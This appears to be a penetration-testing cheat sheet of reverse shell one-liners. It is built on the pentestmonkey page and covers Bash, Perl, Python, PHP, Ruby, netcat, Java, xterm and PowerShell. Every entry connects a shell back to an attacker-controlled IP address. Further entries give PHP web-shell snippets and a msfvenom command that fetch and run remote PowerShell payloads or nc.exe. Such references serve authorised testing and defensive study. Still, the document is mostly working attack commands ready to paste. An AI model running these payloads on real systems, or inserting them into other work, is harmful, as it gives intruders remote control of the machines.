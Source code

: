 # Reverse Shell Cheat Sheet

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell. If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former. Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared. The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

## Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```sh
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

Here’s a shorter, feature-free version of the perl-reverse-shell:
```sh
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell [here](|http://www.plenz.com/reverseshell).

## Python

This was tested under Linux / Python 2.7:
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```sh
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

## PHP with Powershell on Windows in .php file
```php
<?php echo exec("powershell -command \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.77/Invoke-PowerShellTcp.ps1')\""); ?>
```

## PHP with Netcat on Windows in .php file
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.77:7777/nc.exe','nc.exe')\""); ?>
```

```php
<?php exec(".\nc.exe 10.10.15.171 6667 -e cmd.exe"); ?>
```

## Ruby

```sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```sh
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.0.0.1 1234 >/tmp/f
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]

## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```sh
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```sh
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```sh
xhost +targetip
```

## Powershell

``` 
$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
``` 

## Nishang Reverseshell with small payload (zB buffer overflow)
```sh
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.x -Port 4444
```
```bash
msfvenom -a x86 --platform Windows -p windows/exex CMD="powershell \"IEX(New-Object Net.webclient)downloadString('http://10.10.10.x/Invoke-PowerShellTcp.ps1')\"" -e x86/unicode_mix -b 'x00' BufferRegister=EAX -f python
```
```python
python -m SimpleHTTPServer 80
GET /Invoke-PowerShellTcp.ps1'
```
```sh
nc -nlvp 4444
```





## Automated Shell Generation

With shellpop (https://github.com/0x00-0x00/ShellPop) you can generate all kinds of shells easily.

Example for a PHP Reverse Shell:
`shellpop --reverse --number 5 --host tun0 --port 1337`


tags: #pentest #snippets #reverse_shell 
